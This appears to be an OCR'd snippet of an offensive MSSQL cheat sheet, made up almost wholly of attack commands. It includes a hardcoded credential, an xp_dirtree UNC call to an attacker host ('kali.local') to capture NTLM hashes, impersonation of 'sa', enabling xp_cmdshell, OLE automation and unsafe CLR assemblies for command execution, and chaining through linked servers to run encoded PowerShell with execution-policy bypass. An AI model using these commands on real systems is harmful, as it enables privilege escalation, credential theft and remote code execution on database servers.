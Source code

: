 Server = sqlServer,1433; Database = master; User Id=admin; Password=P@ssw0rd; Integrated Security = True;
SELECT SYSTEM_USER;
SELECT USER_NAME;
SELECT IS_SRVROLEMEMBER('public');
SELECT IS_SRVROLEMEMBER('sysadmin');
EXEC master..xp_dirtree \"\\\\kali.local\\\\upi\"
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
EXEC sp_linkedservers;
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell whoami"
EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c "ping kali.local"';
use msdb; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'clr enabled',1; RECONFIGURE; EXEC sp_configure 'clr strict security', 0; RECONFIGURE; CREATE ASSEMBLY myAssembly FROM 'c:\\tools\\cmdExec.dll' WITH PERMISSION_SET = UNSAFE; CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec]; EXEC cmdExec 'whoami';
use msdb; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'clr enabled',1; RECONFIGURE; EXEC sp_configure 'clr strict security', 0; RECONFIGURE; CREATE ASSEMBLY my_assembly FROM 0x4D5A900..... WITH PERMISSION_SET = UNSAFE; CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec]; EXEC cmdExec 'whoami'; 
EXEC('cmd') AT [linkedServer];
EXEC ('EXEC master..xp_dirtree \"\\\\kali.local\\\\upi\";') AT [linkedServer]
EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [linkedServer]; EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [linkedServer]; EXEC ('xp_cmdshell ''powershell -nop -ep bypass -enc encodedCmd'';') AT [linkedServer]
EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; RECONFIGURE;'') AT [sqlServer]') AT [linkedServer]; EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; RECONFIGURE;'') AT [sqlServer}]') AT [linkedServer]; EXEC (' EXEC (''xp_cmdshell ''''powershell -nop -ep bypass -enc encodedCmd'''';'') AT sqlServer') AT linkedServer